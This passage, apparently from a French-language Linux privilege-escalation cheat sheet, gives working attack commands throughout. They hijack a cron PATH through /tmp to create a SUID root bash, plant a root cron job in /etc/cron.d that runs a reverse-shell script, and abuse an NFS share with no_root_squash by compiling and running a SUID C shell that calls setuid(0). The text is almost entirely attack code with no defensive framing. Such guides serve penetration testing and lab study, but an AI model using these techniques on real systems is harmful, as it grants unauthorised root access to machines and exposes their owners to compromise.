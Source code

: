     # Si le PATH du cron inclut un répertoire inscriptible (ex: /tmp) avant /usr/sbin :
    echo '#!/bin/bash' > /tmp/service
    echo 'cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash' >> /tmp/service
    chmod +x /tmp/service
    # Attendre l'exécution du cron.
    # /tmp/rootbash -p
    ```

4.  **Permissions d'Écriture sur les Répertoires Cron :**
    > Si `/etc/cron.d`, `/etc/cron.hourly`, etc., sont inscriptibles, on peut y ajouter nos propres scripts cron.
    ```bash
    ls -ld /etc/cron.d
    # Si inscriptible :
    echo '* * * * * root /usr/local/bin/reverse_shell.sh' > /etc/cron.d/myexploit
    # Créer /usr/local/bin/reverse_shell.sh avec le payload.
    ```

### Exploitation de NFS (Network File System)
> Si un partage NFS est configuré avec `no_root_squash`, un client peut créer des fichiers SUID root sur le partage.

**Énumération NFS :**
```bash
showmount -e <target_ip> # Lister les partages NFS
cat /etc/exports # Sur le serveur NFS (si accessible) pour voir les options
```
**Exploitation si `no_root_squash` est activé pour un partage (ex: `/mnt/nfsshare`) :**
```bash
# Sur la machine attaquante (en tant que root local) :
# 1. Monter le partage NFS
mkdir /tmp/nfs_mount
mount -t nfs <target_ip>:/mnt/nfsshare /tmp/nfs_mount

# 2. Créer un payload et le rendre SUID
cat << EOF > /tmp/nfs_mount/suid_shell.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main() {
    setuid(0);
    setgid(0);
    system("/bin/bash -p");
    return 0;
}
EOF
gcc /tmp/nfs_mount/suid_shell.c -o /tmp/nfs_mount/suid_shell
chmod +s /tmp/nfs_mount/suid_shell # Le bit SUID sera effectif sur la cible

# 3. Sur la machine cible (victime) :
# Naviguer vers le partage monté (s'il est monté localement) ou monter le partage.
# Exécuter le binaire SUID :
/mnt/nfsshare/suid_shell # Ou le chemin où le partage est monté sur la cible
# id # Devrait montrer uid=0(root)
```
